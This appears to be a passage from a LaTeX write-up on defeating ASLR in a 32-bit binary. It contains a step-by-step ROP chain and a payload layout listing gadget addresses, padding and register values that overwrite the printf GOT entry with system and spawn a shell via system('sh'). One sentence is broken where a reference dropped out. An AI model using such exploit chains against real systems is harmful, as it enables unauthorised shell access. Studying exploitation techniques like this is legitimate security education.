 \begin{minipage}{\linewidth}
\begin{enumerate}
\item call printf@PLT with "sh" argument
\item use gadget D to pop the leftover "sh" pointer
\item use gadget D to set \%ebx to 0xaaa99b60 which used by gadget A would modify 0x0804a024
\item use gadget A to modify 0x0804a024 to non-zero
\item use gadget C to set \%esi = 0x01020101 \%edi = 0x01020102 \%ebx = 0x03fc9c18
\item use gadget B to set \%eax = 0xffff2560 and \%ebx = 0xaaa99b3c which used in gadget A would modify 0x0804a000
\item use gadget A to modify the printf GOT entry 0x0804a000 with its diference to system
\item call printf@PLT with "sh" as argument which effectively calls system("sh")
\end{enumerate}
\end{minipage}

Taking into account the specifics of calling the gadgets and PLT functions the exploit should look like . All the 32-bit data should be encoded in Little-endian. While this exploit relies on the \emph{"sh"} string being present a modified version could create it in global variable memory by a series of \emph{strcpy} instruction from program memory for each byte. In fact with this technique a custom stack can be created and then pivoted to using a \emph{leave} \emph{ret} instruction sequence.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={ASLR exploit data},
label={lst:aslr_hex},
language=,
frame=single]
| 36 junk bytes to reach saved return
| printf@PLT address
| gadget D address
| "sh" address
| gadget D address
| 0xaaa99b60 ( new ebx )
| gadget A address
| gadget C address
| 0x03fc9c18 (new ebx )
| 0x01020101 (new esi)
| 0x01020102 (new edi)
| 4 junk bytes (new ebp)
| gadget B address
| 28 junk bytes
| 0xaaa99b3c (new ebx)
| 4 junk bytes (new esi)
| 4 junk bytes (new edi)
| 4 junk bytes (new ebp)
| gadget A address
| printf@PLT address
| 0xffff2560 (new eax) for gadget B
| address of string "sh"
\end{lstlisting}
\end{minipage}
